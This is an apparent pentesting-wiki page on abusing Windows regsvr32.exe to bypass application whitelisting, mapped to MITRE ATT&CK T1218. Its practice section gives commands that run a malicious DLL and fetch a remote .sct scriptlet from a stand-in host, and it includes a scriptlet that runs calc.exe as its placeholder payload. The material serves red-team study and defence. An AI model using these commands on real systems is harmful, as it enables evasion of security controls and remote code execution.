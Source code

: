 # RegSrv32

## Theory

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs) in the Windows Registry. Besides its intended use, regsvr32.exe binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting.

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system.

## Practice

{% tabs %}
{% tab title="Regsvr32.exe" %}
```bash
#Execute dll
c:\Windows\System32\regsvr32.exe c:\Users\pwn\Downloads\malicious.dll

#Or
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\malicious.dll
```

```bash
#http://example.com/file.sct
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```

The MITRE ATT\&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}
